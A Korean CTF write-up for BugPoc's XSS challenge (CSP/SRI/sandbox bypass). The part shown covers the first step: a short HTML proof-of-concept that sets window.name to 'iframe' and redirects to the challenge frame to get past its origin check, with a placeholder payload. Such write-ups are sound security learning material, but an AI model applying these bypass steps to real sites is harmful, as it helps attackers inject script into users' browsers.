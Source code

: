 ```yaml
---
layout: post
date: 2021-06-10 00:00:11
title: "BugPoc XSS Challenge Write Up"
categories: CTF
tags: [XSS]
author:
  - Jeongwon Jo

---
```

## Descriptions

[BugPoc](https://bugpoc.com/)에서 만든 XSS Challenge이고, 문제의 목적은 CSP/SRI 및 Sandbox를 우회하고, XSS를 트리거 하는 것이다. 나는 SRI 때문에 3일에 거쳐 풀었다.

---
## Analysis

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/XSS%20Challenge%20in%20BugPoc/images/1.png?raw=true)

위 사진을 보면 Wacky Text를 입력해주면 해당 값이 Dom 내부에 삽입되는 것을 볼 수 있다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/XSS%20Challenge%20in%20BugPoc/images/2.png?raw=true)

콘솔창을 확인해 보니 `iframe`을 이용해서 `/frame.html`의 돔을 끌어와서 사용하는 것을 볼 수 있다. 

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/XSS%20Challenge%20in%20BugPoc/images/3.png?raw=true)

그래서 `/frame.html`로 접근을 해보니 아니나 다를까 Error 페이지가 발생하는 것 이었다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/XSS%20Challenge%20in%20BugPoc/images/4.png?raw=true)

코드를 확인해 보니 190 line에서 window.name의 값이 "iframe"인 지 아닌 지를 검증하고 있고, window.name의 값이 "iframe"이 아니라면 else 문에 의해서 Error 페이지가 출력이 되는 것 이다.

```html
<!DOCTYPE html>
<html>
    <head>
        <title>XSS Poc : CSP/SRI/Sandbox Bypass</title>
    </head>
    <body>
        <script>
            const exploit = function (){
                const payload = 'pocas';
                const url = `https://wacky.buggywebsite.com/frame.html?param=${payload}`;

                window.name = 'iframe';
                window.location = url;
            }
        </script>

       <h3>If you click the button below.</h3>
        <input type='button' onclick= 'exploit()' value='Trigger'>
    </body>
</html>
```
그래서 위와 같이 window.name의 값으로 "iframe"을 주고, window.location 메서드를 이용해서 라디아렉트를 시켜주니 window.name 검증은 쉽게 해결 할 수 있었다.
